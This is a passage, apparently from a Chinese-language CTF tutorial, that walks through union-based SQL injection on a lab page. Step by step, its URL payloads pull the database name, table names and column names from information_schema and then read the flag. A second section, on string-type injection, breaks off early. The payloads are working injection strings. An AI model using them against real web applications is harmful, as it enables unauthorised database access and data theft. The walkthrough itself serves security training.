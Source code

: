   
在sql中我们查询database语句为 select * from *** where id =1  
  
那么拼接后的语句可以写为?id=1 union select 1,2,database()  
  
  
id=1 不显示数据 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8EypynrdYjklcPjFZlUj8P1CGe5yYYfn8obbE46uE5kDuBqrSXofJoeTwuxY0y7Tibib3guAVicr9xpg/640?wx_fmt=png "")  
  
  
id=0正常显示 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8EypynrdYjklcPjFZlUj8P1RZsE2oiboWErbJgJAM0JicklrOOMstlv47OxWOR2zRfrxfWa4Bicjp8QQ/640?wx_fmt=png "")  
  
  
说明使用id=0,可以保证把数据库位置让出来，让数据显示，需要判断哪些列在前端展示，最后查到库名为 ctf。  
  
  
**查表名**  
  
  
通过information_schema查询元数据，获取表名，列名但不包含用户的数据表信息、要注意我们表有好多个，但是我们把多个表合并为一行显示需要用到函数 group_concat(table_name)。  
  
  
拼接后的URL如下：  
  
  
?id=0 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='ctf' ![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8EypynrdYjklcPjFZlUj8P1twqdibJf56vEwoia4jUJGL9vG7YBwRRXQrm1gTM4sBqIS1iaj9ceIoNaA/640?wx_fmt=png "")  
  
查询到表名信息：answer,emails,referers,uagents,users。  
  
  
根据经验判断哪个表最敏感：answer。  
  
  
**查列名**  
  
  
通过information_schema.columns获取ctf库answer表的列名,还需要把多个列合并到一起 group_concat(column_name)。  
  
  
查询列的URL如下：  
  
  
?id=0 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='answer'![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8EypynrdYjklcPjFZlUj8P1BDzykVh1X6BfbRiatkHH3RNA94jUwnrnRzOtVDrjZzuppKmMoqBs1CQ/640?wx_fmt=png "")  
  
  
获取列名为flag。  
  
  
**查结果**  
  
  
根据 库（ctf）、表(answer)、列(flag) 查询出 结果  
  
  
?id=0 union select 1,2,flag from answer![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8EypynrdYjklcPjFZlUj8P1jwBfDem8ibqsrzvmPq7PgBBQaoqYOwLXjHyxk7IhXC4RZLomc8aeicicg/640?wx_fmt=png "")  
  
###   
### 2.php 字符型SQL  
###   
### 判断注入位点  
###   
### and 1=1 和 and 1=0 发现界面一致，查看源码。  
###   
###   
###   
###  使用''过略，前端输入所有数据后端全部使用''，使用’#方式过略。  
###   
### 判断select列数  
###   